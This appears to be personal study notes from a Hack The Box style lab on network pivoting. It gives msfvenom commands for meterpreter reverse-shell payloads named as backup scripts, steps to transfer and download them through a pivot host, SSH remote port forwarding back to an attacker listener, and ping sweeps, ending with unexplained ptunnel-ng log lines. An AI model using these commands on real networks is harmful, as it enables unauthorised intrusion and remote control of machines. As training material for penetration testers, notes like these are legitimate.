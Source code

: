- First we will create rev shell using metasploit, we will set the LHOST to that of pivot machine i.e `Ubuntu`.
- Then we will use port `8080` on ubuntu server to forward all of our reverse packets to our attacker host’s `8000` port

- `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080` → creating revshell
- `use exploit/multi/handler` → configuring and starting the multi/handler here lport will be `8000`

### **Transferring Payload to Pivot Host then send it to target (Windows A)**

- `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`   →transfer this payload to pivot host
- `python3 -m http.server 8123` → create http server on pivot machine to transfer this payload

- `PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` → on windows download the payload from pivot machine

Once revshell is transferred to windows, we will use `SSH remote port forwarding` to forward connections from ubuntu servers port 8080 to msfconsole’s port 8000

```bash
dollarboysushil@htb[/htb]**$** ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

`-vN`  → to make verbose and not to prompt login shell

`-R`  → asks ubuntu server to listen`<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

## **Meterpreter Tunneling & Port Forwarding**

If we have `meterpreter shell` access on Ubuntu server (pivot server), and we want to perform enumeration scans through the pivot host.
We can create a pivot with our meterpreter session without relying on ssh port forwarding.

- `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080` → creating payload for ubuntu pivot host
- `use exploit/multi/handler` → setting up multi/handler (setting lhost=0.0.0.0)
    
    then transfer this payload to ubuntu pivot host
    
- `./backupjob` → execute payload in pivot host

### **Ping Sweep**

We know that the Windows target is on the `172.16.5.0/23` network. Assuming windows target allows icmp request, we can use `ping_sweep` module in metsploit.

- `run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`

### **Ping Sweep For Loop on Linux Pivot Hosts**

- `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.